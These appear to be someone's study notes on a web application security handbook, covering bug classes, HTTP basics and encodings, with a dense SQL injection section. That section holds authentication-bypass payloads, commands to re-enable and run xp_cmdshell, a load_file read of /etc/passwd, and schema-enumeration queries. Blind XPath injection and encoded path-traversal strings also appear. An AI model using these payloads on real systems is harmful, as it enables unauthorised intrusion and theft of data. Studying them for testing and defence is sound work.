

## Chapter -1 Web Application (In)security

### Bugs
- IDOR (Insecure direct object reference)
- BOLA (Broken objects level authorization)
- SQL Injection
- Path Traversal
- Buffer Overflow
- Access Control Vulnerability
- Email Header injection
- Session token prediction attack
- Cross site scripting
- XSS (For session hijacking)
- SSFR
- CSRF
- XXE (XML External Entity) injection
- SOAP Injection
- HTTP Parameter Injection
- Forced Browsing


<!-- 20th May'24
Completed till page 47 / 914 (pdf)
-->


## Chapter -2 Core Defense Mechanisms

- HTTP cookies are the standard method of transmitting session tokens

<!-- Use 2 spaces after a main bullet point in the next line to add a sub bullet point -->

<!-- HTML Comment tag can be used to comment in Markdown-->

<!-- Below are different types of comments
[//]: # (Still another comment)
[comment]: #(Yet another comment)
-->

- Handling User Access
  - Authetication
  - Session Management
  - Access Control

- Handling User Input
  - Varieties of Input
  - Approaches to Input Handling
  - Boundary Validation
  - Multistep validation and canonicalization

- Handling Attackers
  - Handling Errors
  - Mainitaining Audit Logs
  - Alerting Administrators
  - Reacting to Attacks


**Notes:**

- ``` Null Byte Attacks ```
- ``` Jason Haddix - Bug Hunter Methodology ```
- ```SSRF (Server Side Request Forgery) - Learn about this```
- ```CSRF (Client Side Request Forgery)```
- ```ASP.NET (View State) (Base-64 encoding)```
- ```DSer (Deserialization-er) plugin for BurpSuite to ser and deser - Java objects ```
- ```JavaSnoop/JSwat can be used to debug the java applets in the browser directly```
- ```Burp Sequencer can be used to identify/test the randomness of a web application tokens```
- ```Learn Java script and XML path traversing```
- ```Learn URL Encoding```


<!-- Completed till page 61 / 914 (pdf)
(Sanitization)-->


## Chapter -3 Web Application Technologies

URL:
``protocol://hostname[:port]/[path/]file[?param=value]``

**Status Codes**:

Each HTTP response message must contain a status code in its fi rst line, indicating the result of the request. The status codes fall into fi ve groups, according
to the code’s fi rst digit:
1. 1xx — Informational.
2. 2xx — The request was successful.
3. 3xx — The client is redirected to a different resource.
4. 4xx — The request contains an error of some kind.
5. 5xx — The server encountered an error fulfi lling the request.

- **100** Continue is sent in some circumstances when a client submits a request containing a body. The response indicates that the request headers were received and that the client should continue sending the body. The server returns a second response when the request has been completed.
- **200** OK indicates that the request was successful and that the response body contains the result of the request.
- **201** Created is returned in response to a PUT request to indicate that the request was successful.
- **301** Moved Permanently redirects the browser permanently to a different URL, which is specified in the Location header. The client should use the new URL in the future rather than the original.
- **302** Found redirects the browser temporarily to a different URL, which is specified in the Location header. The client should revert to the original URL in subsequent requests.
- **304** Not Modified instructs the browser to use its cached copy of the requested resource. The server uses the If-Modified-Since and If-NoneMatch request headers to determine whether the client has the latest version of the resource.
- **400** Bad Request indicates that the client submitted an invalid HTTP request. You will probably encounter this when you have modifi ed a request in certain invalid ways, such as by placing a space character into the URL.
- **401** Unauthorized indicates that the server requires HTTP authentication before the request will be granted. The WWW-Authenticate header contains details on the type(s) of authentication supported.
- **403** Forbidden indicates that no one is allowed to access the requested resource, regardless of authentication.
- **404** Not Found indicates that the requested resource does not exist.
- **405** Method Not Allowed indicates that the method used in the request is not supported for the specifi ed URL. For example, you may receive this status code if you attempt to use the PUT method where it is not supported.
- **413** Request Entity Too Large — If you are probing for buffer overflow vulnerabilities in native code, and therefore are submitting long strings of data, this indicates that the body of your request is too large for the server to handle.
- **414** Request URI Too Long is similar to the 413 response. It indicates that the URL used in the request is too large for the server to handle.
- **500** Internal Server Error indicates that the server encountered an error fulfi lling the request. This normally occurs when you have submitted unexpected input that caused an unhandled error somewhere within the application’s processing. You should closely review the full contents of the server’s response for any details indicating the nature of the error.
- **503** Service Unavailable normally indicates that, although the web server itself is functioning and can respond to requests, the application accessed via the server is not responding. You should verify whether this is the result of any action you have performed.
&nbsp; <!-- To add a blank line -->

<!-- Completed till page 92/914 (pdf) (XML)-->

- **URL Encoding** - with % prefix
- **Unicode Encoding** - With %u prefix
- **UTF-8 Encoding** is a variable length encoding standard that employs one or more bytes to express each character. For transmission over HTTP, the UTF-8 encoded form of a multibyte character simply uses each byte expressed in hexadecimal and preceded by the % prefix
  - %e2%89%a0  
- **HTML Encoding** - HTML encoding defines numerous HTML entities to represent specific literal characters:
  - &quot\; - "
  - &apos\; - '
  - &amp\; - &
  - &lt\; - <
  - &gt\; - >
  -  In addition any character can be HTML-Encoded using its ASCII code in decimal form:
      - &#34\; - "
      - &#39\; - '
  - Or in hexadecimal form with 'x' prefixed:
      - &#x22\; - "
      - &#x27\; - '
  
- **Base64 Encoding** - Allows any binary data to be safely represented using only printable ASCII characters. it used for email attachments and user credentials in basic HTTP authentication.
    - Encoding process input data in blocks of 3 bytes and each block is divided into 4 chunks of 6 bits each. Six bits of data allows for 64 different possible permutations.

-  **Hex Encoding** - Many applications use straightforward hexadecimal encoding when transmitting binary data, using ASCII characters to represent the hexadecimal block. 

## Chapter -4 Mapping the Application

- **Web Spidering** -  This is used to gather as much information as possible about the website while automating everything.
    - Applications -  Burp Suite, WebScarab Zed Attack Proxy, and CAT, DirtBuster (Content Discovery), Wikto and Nitko

- **Hack Steps** -

1. Configure your browser to use either Burp or WebScarab as a local proxy
 2. Browse the entire application normally, attempting to visit every link/URL you discover, submitting every form, and proceeding through all multistep functions to completion. Try browsing with JavaScript enabled and disabled, and with cookies enabled and disabled. Many applications can handle various browser configurations, and you may reach different content and code paths within the application.
 3. Review the site map generated by the proxy/spider tool, and identify any application content or functions that you did not browse manually. Establish how the spider enumerated each item. For example, in Burp Spider, check the Linked From details. Using your browser, access the item manually so that the response from the server is parsed by the proxy spider tool to identify any further content. Continue this step recursively until no further content or functionality is identified.
 4. Optionally, tell the tool to actively spider the site using all of the already enumerated content as a starting point. To do this, first identify any URLs that are dangerous or likely to break the application session, and configure the spider to exclude these from its scope. Run the spider and review the results for any additional content it discovers.


<!-- Completed till page 126/914 (Hack Steps)-->

- **Session Tokens:**
1. JSESSIONID — The Java Platform
2. ASPSESSIONID — Microsoft IIS server
3. ASP.NET_SessionId — Microsoft ASP.NET
4. CFID/CFTOKEN — Cold Fusion
5. PHPSESSID — PHP


- **Attack Surface:**

1. Client-side validation — Checks may not be replicated on the server
2. Database interaction — SQL injection
3. File uploading and downloading — Path traversal vulnerabilities, stored cross-site scripting
4. Display of user-supplied data — Cross-site scripting
5. Dynamic redirects — Redirection and header injection attacks
6. Social networking features — username enumeration, stored cross-site scripting
7. Login — Username enumeration, weak passwords, ability to use brute force
8. Multistage login — Logic fl aws
9. Session state — Predictable tokens, insecure handling of tokens
10. Access controls — Horizontal and vertical privilege escalation
11. User impersonation functions — Privilege escalation
12. Use of cleartext communications — Session hijacking, capture of credentials and other sensitive data
13. Off-site links — Leakage of query string parameters in the Referer header
14. Interfaces to external systems — Shortcuts in the handling of sessions and/or access controls
15. Error messages — Information leakage
16. E-mail interaction — E-mail and/or command injection
17. Native code components or interaction — Buffer overfl ows
18. Use of third-party application components — Known vulnerabilities
19. Identifi able web server software — Common confi guration weaknesses, known software bugs


## Chapter -5 Bypassing client-side controls

<!-- Completed till 171/914 (Approaches to Browser Extensions)-->

- **Handling Serialization:**

1. Java Serialization can be identified by content-type header: **``Content-Type: application/x-java-serialized-object``**

2. Flash Serialization can be identified by content-type header: **``Content-Type: application/x-amf``** (AMF) -  Active Message Format

3. Silverlight Serialization can be identified by content-type header: **``Content-Type: application/soap+msbin1``**


## Chapter -6 Attacking Authentication

<!-- Completed till 213/914 ) Completed the first paragraph-->

- Incomplete validation of passwords, by checking only the first n characters or by checking only password after removing special characters and also converting the password to lower case and checking.


<!-- Completed till 232/914 ) Prevent Brute-Force Attacks-->

## Chapter -7 Attacking Session Management

<!-- Completed till 273/914 - Disclosure of Tokens in Logs-->


## Chapter -8 Attacking Access Controls

<!-- Completed till 293/914 -->

- Access Controls:

1. **Vertical Privilege escalation**
2. **Horizontal Privilege escalation**
3. **Business logic exploitation**

<!-- Completed till 300/914-- (Platform Misconfiguration)-->

- ```DAC(Discretionary Access Control)```
- ```RBAC(Role Based Access Control)```

<!-- Completed till 323/914 -->

## Chapter -9 Attacking Data Stores


```SELECT * FROM users WHERE username = ‘admin’--’ AND password = ‘foo’```
- '--' (comment sequence ignore the rest of the query)

```SELECT * FROM users WHERE username = ‘admin’```

- so the password check is bypassed.

```SELECT * FROM users WHERE username = ‘’ OR 1=1--’ AND password = ‘foo’```

- Because of the comment symbol:

```SELECT * FROM users WHERE username = ‘’ OR 1=1```


<!-- Completed till 360/914 -->

Stored procedure ```xp_cmdshell``` is built in MS-SQL can be used to command prompt of the operating system similar to cmd.exe

```master..xp_cmdshell 'ipconfig > foo.txt' ```

Stored procedures ```xp_regread``` and ```xp_regwrite``` can be used to perform powerful actions within the registry of the Windows operating system.

If ```xp_cmdshell``` is disabled, if can be re-enabled with the ```sp_configure``` stored procedure. Like below:

``` EXECUTE sp_configure 'show advanced options', 1 ```
``` RECONFIGURE WITH OVERRIDE ```
```EXECUTE sp_configure 'xp_cmdshell', '1' ```
``` RECONFIGURE WITH OVERRIDE ```

```sqlmap``` is an effectifve tool for database information retrieval


**SQL Syntax**
1. **Requirement:** ```ASCII``` and ```SUBSTRING```
- **Oracle:** ```ASCII(‘A’)``` is equal to ```65```
        ```SUBSTR(‘ABCDE’,2,3)``` is equal to ```BCD```


- **MS-SQL:** ```ASCII(‘A’)``` is equal to ```65```
```SUBSTRING(‘ABCDE’,2,3)``` is equal to ```BCD```
- **MySQL:** ```ASCII(‘A’)``` is equal to ```65```
```SUBSTRING(‘ABCDE’,2,3)``` is equal to ```BCD```

2. **Requirement:** ***Retrieve current database user***
**Oracle:** ```Select Sys.login_user from dual SELECT user FROM dual SYS_CONTEXT(‘USERENV’, ‘SESSION_USER’)```
**MS-SQL:** ```select suser_sname()```
**MySQL:** ```SELECT user()```

3. Requirement: Cause a time delay
**Oracle:** ```Utl_Http.request(‘http://madeupserver.com’)```
**MS-SQL:** ```waitfor delay ‘0:0:10’ exec master..xp_cmdshell ‘ping localhost’```
**MySQL:** ```sleep(100)```

4. Requirement: Retrieve database version string
**Oracle:** ```select banner from v$version```
**MS-SQL:** ```select @@version```
**MySQL:** ```select @@version```

5. Requirement: Retrieve current database
**Oracle:** ```SELECT SYS_CONTEXT(‘USERENV’,’DB_NAME’) FROM dual```
**MS-SQL:** ```SELECT db_name()```
***The server name can be retrieved using:***
```SELECT @@servername```
**MySQL:** ```SELECT database()```

6. Requirement: Retrieve current user’s privilege
**Oracle:** ```SELECT privilege FROM session_privs```
**MS-SQL:** ```SELECT grantee, table_name, privilege_type FROM INFORMATION_SCHEMA.TABLE_PRIVILEGES```
**MySQL:** ```SELECT * FROM information_schema.user_privileges WHERE grantee = ‘[user]’``` where ```[user] ```is determined
from the output of ```SELECT user()```

7. Requirement: Show all tables and columns in a single column of results
**Oracle:** ```Select table_name||’ ```
```‘||column_name from all_tab_columns```
**MS-SQL:** ```SELECT table_name+’```
```‘+column_name from information_schema.columns```
**MySQL:** ```SELECT CONCAT(table_name,```
```‘,column_name) from information_schema.columns```

8. Requirement: Show user objects
**Oracle:** ```SELECT object_name, object_type FROM user_objects```
**MS-SQL:** ```SELECT name FROM sysobjects```
**MySQL:** ```SELECT table_name FROM information_schema.tables```
***(or trigger_name from ```information_schema.triggers```, etc.)***

9. Requirement: Show user tables
**Oracle:** ```SELECT object_name, object_type FROM user_objects```
```WHERE object_type=’TABLE’```
***Or to show all tables to which the user has access:***
```SELECT table_name FROM all_tables```
**MS-SQL:** ```SELECT name FROM sysobjects WHERE xtype=’U’```
**MySQL:** ```SELECT table_name FROM information_schema.```
```tables where table_type=’BASE TABLE’ and```
```table_schema!=’mysql’```

10. Requirement: Show column names for table foo
**Oracle:** ```SELECT column_name, name FROM user_tab_columns```
```WHERE table_name = ‘FOO’```
***Use the ```ALL_tab_columns``` table if the target data is not owned by the current application user.***
**MS-SQL:** ```SELECT column_name FROM information_schema.columns WHERE table_name=’foo’```
**MySQL:** ```SELECT column_name FROM information_schema.columns WHERE table_name=’foo’```

11. Requirement: Interact with the operating system (simplest ways)
**Oracle:** ***See The Oracle Hacker’s Handbook by David Litchfi eld***
**MS-SQL:** ```EXEC xp_cmshell ‘dir c:\ ‘```
**MySQL:** ```SELECT load_file(‘/etc/passwd’)```

**SQL Error Messages**

1. **Oracle:** ```ORA-01756: quoted string not properly terminated```
```ORA-00933: SQL command not properly ended```

2. **MS-SQL:** ```Msg 170, Level 15, State 1, Line 1```
```Line 1: Incorrect syntax near ‘foo’```
```Msg 105, Level 15, State 1, Line 1```
```Unclosed quotation mark before the character string ‘foo’```

3. **MySQL:** ```You have an error in your SQL syntax. Check the manual that corresponds to your MySQL server version for the right syntax to use near ‘’foo’ at line X```

**Translation:** ```For Oracle and MS-SQL, SQL injection is present, and it is almost certainly exploitable! If you entered a single quote and it altered the syntax of the database query, this is the error you’d expect. For MySQL, SQL injection may be present, but the same error message can appear in other contexts.```

4. **Oracle:** ```PLS-00306: wrong number or types of arguments in call to ‘XXX’```

5. **MS-SQL:** ```Procedure ‘XXX’ expects parameter ‘@YYY’, which was not supplied```

6. **MySQL:** **N/A**

**Translation:** ```You have commented out or removed a variable that normally would be supplied to the database. In MS-SQL, you should be able to use time delay techniques to perform arbitrary data retrieval.```

7. **Oracle:** ```ORA-01789: query block has incorrect number of result columns```

8. **MS-SQL:** ``` Msg 205, Level 16, State 1, Line 1 ```
```All queries in a SQL statement containing a UNION operator must have an equal number of expressions in their target lists.```

9. **MySQL:** ```The used SELECT statements have a different number of columns```

**Translation:** ```You will see this when you are attempting a UNION SELECT attack, and you have specifi ed a different number of columns to the number in the original SELECT statement.```

10. **Oracle:** ```ORA-01790: expression must have same datatype as corresponding expression```

11. **MS-SQL:** ```Msg 245, Level 16, State 1, Line 1```
```Syntax error converting the varchar value ‘foo’ to a column of data type int.```

12. **MySQL:** ```(MySQL will not give you an error.)```

**Translation:** ```You will see this when you are attempting a UNION SELECT attack, and you have specifi ed a different data type from that found in the original SELECT statement. Try using a NULL, or using 1 or 2000.```

13. **Oracle:** ```ORA-01722: invalid number```
```ORA-01858: a non-numeric character was found where a numeric was expected```

14. **MS-SQL:** ```Msg 245, Level 16, State 1, Line 1```
```Syntax error converting the varchar value ‘foo’ to a column of data type int.```

15. **MySQL:** ```(MySQL will not give you an error.)```

**Translation:** ```Your input doesn’t match the expected data type for the field. You may have SQL injection, and you may not need a single quote, so try simply entering a number followed by your SQL to be injected. In MS-SQL, you should be able to return any string value with this error message.```

16. **Oracle:** ```ORA-00923: FROM keyword not found where expected```

17. **MS-SQL:** ```N/A```

18. **MySQL:** ```N/A```

**Translation:** ```The following will work in MS-SQL:```
**```SELECT 1```**
```But in Oracle, if you want to return something, you must select from a table. The DUAL table will do fine:```
**```SELECT 1 from DUAL```**

19. **Oracle:** ```ORA-00936: missing expression```

20. **MS-SQL:** ```Msg 156, Level 15, State 1, Line 1Incorrect syntax near the keyword ‘from’.```

21. **MySQL:** ```You have an error in your SQL syntax. Check the manual that corresponds to your MySQL server version for the right syntax to use near ‘ XXX , YYY from SOME_TABLE’ at line 1```

**Translation:** ```You commonly see this error message when your injection point occurs before the FROM keyword (for example, you have injected into the columns to be returned) and/or you have used the comment character to remove required SQL keywords. Try completing the SQL statement yourself while using your comment character. MySQL should helpfully reveal the column names XXX, YYY when this condition is encountered.```

22. **Oracle:** ```ORA-00972:identifier is too long```

23. **MS-SQL:** ```String or binary data would be truncated.```

24. **MySQL:** ```N/A```

**Translation:** ```This does not indicate SQL injection. You may see this error message if you have entered a long string. You’re unlikely to get a buffer overfl ow here either, because the database is handling your input safely.```

25. **Oracle:** ```ORA-00942: table or view does not exist```

26. **MS-SQL:** ```Msg 208, Level 16, State 1, Line 1 Invalid object name ‘foo’```

27. **MySQL:** ```Table ‘DBNAME.SOMETABLE’ doesn’t exist```

**Translation:** ```Either you are trying to access a table or view that does not exist, or, in the case of Oracle, the database user does not have privileges for the table or view. Test your query against a table you know you have access to, such as DUAL. MySQL should helpfully reveal the current database schema DBNAME when this condition is encountered.```

28. **Oracle:** ```ORA-00920: invalid relational operator```

29. **MS-SQL:** ```Msg 170, Level 15, State 1, Line 1 ```
```Line 1: Incorrect syntax near foo```

30. **MySQL:** ```You have an error in your SQL syntax. Check the manual that corresponds to your MySQL server version for the right syntax to use near ‘’ at line 1```

**Translation:** ```You were probably altering something in a WHERE clause, and your SQL injection attempt has disrupted the grammar.```

31. **Oracle:** ```ORA-00907: missing right parenthesis```

32. **MS-SQL:** ```N/A```

33. **MySQL:** ```You have an error in your SQL syntax. Check the manual that corresponds to your MySQL server version for the right syntax to use near ‘’ at line 1```

**Translation:** ```Your SQL injection attempt has worked, but the injection point was inside parentheses. You probably commented out the closing parenthesis with injected comment characters (--).```

34. **Oracle:** ```ORA-00900: invalid SQL statement```

35. **MS-SQL:** ```Msg 170, Level 15, State 1, Line 1```
```Line 1: Incorrect syntax near foo```

36. **MySQL:** ```You have an error in your SQL syntax. Check the manual that corresponds to your MySQL server version for the right syntax to use near XXXXXX```

**Translation:** ```A general error message. The error messages listed previously all take precedence, so something else went wrong. It’s likely you can try alternative input and get a more meaningful message.```

37. **Oracle:** ```ORA-03001: unimplemented feature```

38. **MS-SQL:** ```N/A```

39. **MySQL:** ```N/A```

Translation: ```You have tried to perform an action that  Oracle does not allow. This can happen if you were trying to display the database version string from v$version but you were in an UPDATE or INSERT query```

40. **Oracle:** ```ORA-02030: can only select from fixed tables/views```

41. **MS-SQL:** ```N/A```

42. **MySQL:** ```N/A```

**Translation:** ```You were probably trying to edit a SYSTEM view. This can happen if you were trying to display the database version string from v$version but you were in an UPDATE or INSERT query.```

<!-- Completed till 374 Preventing SQL Injection-->


- **Blind XPath Injection:**

In Blind Xpath injection we can try the substring technique and retrieve the info of current node's parent

```‘ or substring(name(parent::*[position()=1]),1,1)= ‘a```


## Chapter -10 Attacking Back-End Components

1. Simple URL Encoded representations:

- Dot — ```%2e```
- Forward slash — ```%2f```
- Backslash — ```%5c```
2. Try using 16-bit Unicode encoding:
- Dot — ```%u002e```
- Forward slash — ```%u2215```
- Backslash — ```%u2216```
3. Try double URL encoding:
- Dot — ```%252e```
- Forward slash — ```%252f```
- Backslash — ```%255c```
4. Try overlong UTF-8 Unicode encoding:
- Dot — ```%c0%2e```, ```%e0%40%ae```, ```%c0ae```, and so on
- Forward slash — ```%c0%af```, ```%e0%80%af```, ```%c0%2f```, and so on
- Backslash — ```%c0%5c```, ```%c0%80%5c```, and so on

<!-- Completed till 419 (Injecting into XML Interpreters)-->

---
- HTTP Parameter Pollution: HPP is an attack technique that arises in various contexts and that often applies in the context of HPI attacks

<!-- Completed till 441/914 (Chapter 11 - Attacking Application Logic)-->

- Page 448 (Insurance based flaw)

<!-- Completed till 467/914 (Chapter 12 - Attacking users -  Cross-Site Scripting-->